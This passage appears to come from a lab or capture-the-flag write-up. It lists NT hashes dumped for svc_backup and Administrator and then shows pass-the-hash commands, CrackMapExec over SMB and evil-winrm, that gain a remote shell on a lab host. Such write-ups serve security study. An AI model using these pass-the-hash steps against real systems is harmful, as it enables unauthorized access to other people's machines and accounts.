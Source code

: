 <figure><img src="../../../../.gitbook/assets/image (924).png" alt=""><figcaption></figcaption></figure>

```
svc_backup -> 9658d1d1dcd9250115e2205d9f48400d
Administrator -> 7f1e4ff8c6a8e6b6fcae2d9c0572cd62
```

So now we can try CrackMapExec with those NT hashes:

```
cme smb 10.129.229.17 -u svc_backup -H 9658d1d1dcd9250115e2205d9f48400d
```

and we manage to have access to svc\_backup:

<figure><img src="../../../../.gitbook/assets/image (925).png" alt=""><figcaption></figcaption></figure>

So now a good thing to try would be to use evil-winrm, let's test out some fun stuff:

```
evil-winrm -i 10.129.229.17 -u svc_backup -H 9658d1d1dcd9250115e2205d9f48400d
```

<figure><img src="../../../../.gitbook/assets/image (926).png" alt=""><figcaption></figcaption></figure>
